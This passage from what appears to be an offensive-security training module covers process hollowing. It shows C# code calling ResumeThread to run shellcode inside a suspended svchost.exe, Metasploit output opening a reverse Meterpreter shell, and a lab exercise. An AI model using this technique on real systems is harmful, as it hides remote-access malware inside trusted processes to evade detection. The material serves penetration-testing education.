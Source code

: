 > Listing 46 - ResumeThread function prototype

When _CreateProcessW_ started **svchost.exe** and populated the PROCESS\_INFORMATION structure, it also copied the handle of the main thread into it. We can then import _ResumeThread_ and call it directly.

```
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
...

ResumeThread(pi.hThread);
```

> Listing 47 - Importing and calling ResumeThread

We now have all the pieces to create a suspended process, hollow out its original code, replace it with our shellcode, and subsequently execute it.

Once we have combined all the code, we must remember to specify a 64-bit architecture (since **svchost.exe** is a 64-bit process) and change it from "debug" to "release" before compiling.

When we execute it, the compiled code results in a reverse Meterpreter shell executing inside a **svchost.exe** process, possibly evading suspicion since it is a trusted process that also engages in network communications. Excellent!

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 48 - Getting a reverse shell

While the code and technique here only writes shellcode into the suspended process, we could also use this technique to [hollow](https://github.com/m0n0ph1/Process-Hollowing) an entire compiled EXE.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| Process Injection - Client01 - VM #5 | 192.168.139.15 |   |
| ------------------------------------ | -------------- | - |

**Labs**

1. Perform the process hollowing technique shown in this section. What is the parent process of the hollowed **svchost.exe** process?

Answer
